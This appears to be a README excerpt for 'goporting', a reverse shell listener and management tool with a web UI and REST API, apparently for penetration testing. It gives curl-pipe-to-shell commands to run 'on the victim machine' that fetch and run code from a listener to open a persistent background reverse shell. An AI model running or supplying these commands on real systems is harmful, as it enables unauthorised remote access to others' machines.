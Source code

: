 ![](https://goporting-reverse-shell.vercel.app/images/cli/start.gif)

As you can see, goporting will check for updates, then start listening on port 13337, 13338 and 7331

The three port have different aims.
- 13337 Reverse shell server, which **disallows** the reverse session comes from the IP.
- 13338 Reverse shell server, which **allows** the reverse session comes from the IP.
- 7331 Goporting [RESTful](./doc/RESTful.md) API EndPoint, which allows you to manipulate Goporting through HTTP protocol or [Python SDK](./doc/SDK.md).

If you want another reverse shell listening port, just type `Run 0.0.0.0 1339` or modify the `config.yml`.

Also, goporting will print help information about [RaaS](./doc/RaaS.md) which release you from remembering  tedious reverse shell commands. 

With goporting, all you have to do is just copy-and-paste the `curl` command and execute it on the victim machine.

```bash
curl http://127.0.0.1:13337/|sh
curl http://192.168.88.129:13337/|sh
```

Now, suppose that the victim is attacked by the attacker and a reverse shell command will be executed on the machine of victim.

![](https://goporting-reverse-shell.vercel.app/images/cli/connect.gif)

> Notice, the RaaS feature ensure that the reverse shell process is running in background and ignore the hangup signal.

## Get start with Web UI

### Manage listening port

![](https://goporting-reverse-shell.vercel.app/images/webui/add.gif)

### Wait for client connection

![](https://goporting-reverse-shell.vercel.app/images/webui/wait.gif)

### Popup an interactive shell

![](https://goporting-reverse-shell.vercel.app/images/webui/shell.gif)

### Upgrade a reverse shell to an encrypted channel (Termite)

![](https://goporting-reverse-shell.vercel.app/images/webui/upgrade.gif)
